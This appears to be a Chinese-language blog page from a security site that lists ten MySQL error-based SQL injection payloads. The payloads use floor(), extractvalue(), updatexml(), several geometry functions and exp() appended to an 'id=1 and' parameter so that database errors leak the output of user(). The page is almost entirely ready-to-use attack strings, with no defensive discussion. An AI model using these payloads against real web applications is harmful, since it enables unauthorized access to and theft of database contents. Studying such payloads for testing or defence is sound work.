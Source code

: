 ```yaml
---
layout: default
---
```

# ![](../img/hj.jpg)十种MySQL报错注入

## ![](../img/github14.png)floor()
```sql
id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2)) x from information_schema.tables group by x) a)
```
## ![](../img/github15.png)extractvalue()
```sql
id = 1 and (extractvalue(1,concat(0x5c,(select user()))))
```
## ![](../img/github16.png)updatexml()
```sql
id = 1 and (updatexml(1,concat(0x5e24,(select user()),0x5e24),1))
```
## ![](../img/github17.png)GeometryCollection()
```sql
id = 1 and GeometryCollection((select * from (select * from(select user())a)b))
```
## ![](../img/github18.png)polygon()
```sql
id = 1 and polygon((select * from(select * from(select user())a)b))
```
## ![](../img/github19.png)multipoint()
```sql
id = 1 and multipoint((select * from(select * from(select user())a)b))
```
## ![](../img/github20.png)multilinestring()
```sql
id = 1 and multilinestring((select * from(select* from(select user())a)b))
```
## ![](../img/github21.png)multipolygon()
```sql
id = 1 and multipolygon((select * from(select * from(select user())a)b))
```
## ![](../img/github22.png)linestring()
```sql
id = 1 and linestring((select * from(select * from(select user())a)b))
```
## ![](../img/github23.png)exp()
```sql
id = 1 and EXP(~(select * from(select user())a))
```


__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)
